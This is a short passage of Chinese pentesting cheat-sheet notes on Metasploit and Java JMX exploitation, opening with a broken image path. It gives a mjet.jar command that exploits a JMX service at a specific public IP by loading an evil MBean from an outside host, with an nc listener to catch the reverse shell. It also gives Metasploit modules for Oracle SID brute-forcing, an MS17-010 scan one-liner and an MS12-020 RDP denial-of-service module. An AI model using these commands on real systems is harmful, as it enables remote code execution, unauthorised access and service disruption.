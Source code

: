 接着 msf 就拿到 session 了。

## 接受反弹的shell

nc 监听本地的 23333 端口，然后运行：
```
java -jar mjet.jar -p 1099 -u http://static.ricter.me/jmx/ -t 42.96.150.237
 ```

`http://static.ricter.me/jmx/ `是存放的 evil MBean 和 jar 包的地址。


MSF爆破Oracle数据库

```
use auxiliary/admin/oracle/tnscmd   # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞。

    set rhosts <ip>
    run

    use auxiliary/admin/oracle/sid_brute  # 爆破 oracle 的 SID
    set rhosts <ip>
    run

```
**一句话**

- `msfconsole -x "use auxiliary/scanner/smb/smb_ms17_010; set rhost 127.0.0.1; set lport 4444; run;"`

```bash
msfconsole -x "use auxiliary/scanner/smb/smb_ms17_010; set rhost 127.0.0.1; set lport 4444; run; exit" >> 1.txt
一句话调用并输出。
```

-  kali
设置postgresql数据库

```
service postgresql start

```












**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

